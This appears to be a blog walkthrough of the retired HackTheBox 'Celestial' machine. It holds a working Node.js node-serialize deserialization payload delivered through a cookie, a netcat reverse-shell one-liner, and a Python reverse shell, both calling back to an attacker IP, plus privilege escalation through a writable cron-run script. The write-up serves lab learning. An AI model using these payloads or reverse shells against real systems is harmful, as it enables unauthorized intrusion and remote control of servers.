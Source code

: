 ```yaml
---
layout: post
title: "HackTheBox - Celestial writeup"
subtitle: "~ Walkthrough of Celestial machine from HackTheBox ~"
date: 2018-09-02
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true
excerpt_separator: <!--more-->
---
```


<img src="/img/blog/htb-celestial/htb-celestial-00.png" width="417" height="136">
# Introduction
New week means new writeup from [HackTheBox](https://www.hackthebox.eu/){:target="_blank"}! This week's retired box is *Celestial*. *Celestial* machine improperly handles input which is fed to a *Node.js* `unserialize()` function. This allows the attacker to achieve command execution by passing a Javascript object to the previously mentioned function. Let's get into it! <!--more-->

***

# Scanning & Enumeration

Initial *nmap* scan:
```console
root@EdgeOfNight:~# nmap -sS -T4 -sV -sC 10.10.10.85

Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-02 12:33 BST
Warning: 10.10.10.85 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.85
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.85 seconds
```
Nmap detects only 1 *HTTP* port open. Upon viewing the webpage we get a following view:

<a href="/img/blog/htb-celestial/htb-celestial-01.png" target="_blank"><img class="centerImgTiny" src="/img/blog/htb-celestial/htb-celestial-01.png"></a>

A plain webpage which shows a weird message. Normally I'd continue with directory bruteforce, but for the sake of keeping this blog short I won't because directory bruteforce is not the correct solution and won't yield any results.

Well, there isn't much to follow. Due to lack of leads, I decided to view each HTTP request I make to the server with an intercepting *Burpsuite* proxy.

<a href="/img/blog/htb-celestial/htb-celestial-02.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-celestial/htb-celestial-02.png"></a>

There seems to be a base64 encoded cookie (*profile=xxxx...*) which decodes to:
```console
root@EdgeOfNight:~# echo "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==" | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```
> Note: "%3D%3D" is URL encoded equivalent of "==" 

Right, so we have some sort of *JSON* object parsing where 2+2 gets concatenated into 22. From security standpoint it's **ALWAYS** a bad practice to parse user input (in this case "num":"2") as it can be often missused and chained into a serious vulnerability such as an RCE. So, instinctively our best bet is to look for a Node.js parsing / serialization vulnerability. First few google queries return interesting results such as [this](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/){:target="_blank"} or [this](https://blog.websecurify.com/2017/02/hacking-node-serialize.html){:target="_blank"} and confirm our initial fear (or joy, depends if you are the attacker >:) ). An RCE is possible through passing of a serialized JavaScript Object.  Let's make our payload and get a shell!

***

# Exploitation 

### - Local Testing
First, install Node.js and Node.js serialize library with the command below (DEBIAN ONLY!). 
{% highlight bash %}
curl -sL https://deb.nodesource.com/setup_10.x | sudo -E bash -
sudo apt-get install -y nodejs
sudo apt-get install npm
sudo npm install node-serialize
{% endhighlight %}

This allows us to locally debug and test our exploit. 

In order to serialize() a Javascript object I use a script (script.js) that views kernel information with `uname -a`: 
{% highlight javascript %}
var y = {
rce : function(){
require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });
}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
{% endhighlight %}

<a href="/img/blog/htb-celestial/htb-celestial-03.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-celestial/htb-celestial-03.png"></a>

By using IIFE ([Javascript's immediately invoked function expression](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression){:target="_blank"}) we can execute this code. IIFE is something like a constructor. By appending `()` after the function's body we can immediately run the function and therefore run the malicious code. With IIFE the previously made *JSON* object would look like this: 

```console
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

By unserializing this serialized object we get command execution.
{% highlight javascript %}
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'uname -a\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
{% endhighlight %}

<a href="/img/blog/htb-celestial/htb-celestial-04.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-celestial/htb-celestial-04.png"></a>

Awesome! All we need to do now is to find a way to get a reverse shell. Simply replace `uname -a` with a [reverse shell one liner](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}. I will be using netcat one - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`. The final payload will look something like this:
{% highlight javascript %}
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.112 1234 >/tmp/f\', function(error, stdout, stderr) { console.log(stdout) });}()"}
{% endhighlight %}

> Note: Replace 10.10.15.112 with your "connect-back" IP

### - Summing it all up 
So far we have 2 *JSON* objects. The original one: 
{% highlight json %}
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
{% endhighlight %}
and the weaponized one:
{% highlight json %}
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.112 1234 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
{% endhighlight %}

Combine them into one single object, base64 & url encode (change "==" into "%3D%3D") the result and replace the original encoded cookie with our new weaponized one. 

Merged *JSON* object:
{% highlight json %}
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2","rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.112 1234 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
{% endhighlight %}

Encoded *JSON* object:<br>
<a href="/img/blog/htb-celestial/htb-celestial-05.png" target="_blank"><img src="/img/blog/htb-celestial/htb-celestial-05.png"></a>

Replacing of the cookie:<br>
<a href="/img/blog/htb-celestial/htb-celestial-06.png" target="_blank"><img src="/img/blog/htb-celestial/htb-celestial-06.png"></a>

Shell:<br>
<a href="/img/blog/htb-celestial/htb-celestial-07.png" target="_blank"><img src="/img/blog/htb-celestial/htb-celestial-07.png"></a>

Result is a nice shell! Go and get your deserved user flag!

***

# Privilege escalation
Navigating to `/home/sun/Documents` you can find a writable *script.py* file. 

<a href="/img/blog/htb-celestial/htb-celestial-08.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-celestial/htb-celestial-08.png"></a>

Doing some recon I find out that there's a cron job running this script as root every 5 minutes. We can escalate our privileges by placing a reverse shell into the script (because it's writable) or any other python code. It will be executed with root permissions. 

My reverse shell looks as follows:
{% highlight python %}
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.112",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}
> Note: Don't forget to replace your IP again! 

<a href="/img/blog/htb-celestial/htb-celestial-09.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-celestial/htb-celestial-09.png"></a>

### Rooted! Congratulations! 

***

# Conclusion
Thanks for reading guys! I enjoyed this box mainly because it contained a serialization vulnerability. There are other similar ones to explore - python pickles or php object injections and so on. Beauty is, that these types of exploits require a lot of manual work and can't be downloaded somewhere on the internet. I feel like one learns a lot from such vulnerabilities. Thank you for the box [3ndG4me](https://github.com/3ndG4me){:target="_blank"}!

~V3
